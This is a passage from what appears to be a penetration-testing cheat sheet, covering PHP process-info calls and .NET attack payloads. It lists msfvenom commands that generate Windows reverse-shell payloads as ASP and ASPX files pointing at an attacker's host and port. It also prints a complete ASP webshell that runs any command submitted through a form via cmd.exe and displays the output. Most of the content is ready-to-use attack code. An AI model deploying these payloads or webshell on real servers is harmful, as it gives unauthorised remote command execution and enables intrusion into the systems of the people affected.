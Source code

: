 ```
getmyinode();
getmypid();
getmyuid();
```

## .NET

### Reverse shell

From msfvenom

```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o rv.asp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o rv.asp

msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f aspx -o rv.aspx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f aspx -o rv.aspx
```

### Webshell

ASP

```
<%@ Language=VBScript %>
<%
  Dim oScript
  Dim oScriptNet
  Dim oFileSys, oFile
  Dim szCMD, szTempFile
  On Error Resume Next
  Set oScript = Server.CreateObject("WSCRIPT.SHELL")
  Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
  Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
  szCMD = Request.Form(".CMD")
  If (szCMD <> "") Then
    szTempFile = "C:\" & oFileSys.GetTempName( )
    Call oScript.Run ("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True)
    Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0)
  End If
%>
<HTML>
<BODY>
<FORM action="<%= Request.ServerVariables("URL") %>" method="POST">
<input type=text name=".CMD" size=45 value="<%= szCMD %>">
<input type=submit value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<br>
<%
  If (IsObject(oFile)) Then
    On Error Resume Next
    Response.Write Server.HTMLEncode(oFile.ReadAll)
    oFile.Close
    Call oFileSys.DeleteFile(szTempFile, True)
  End If
%>
</BODY>
</HTML>
```
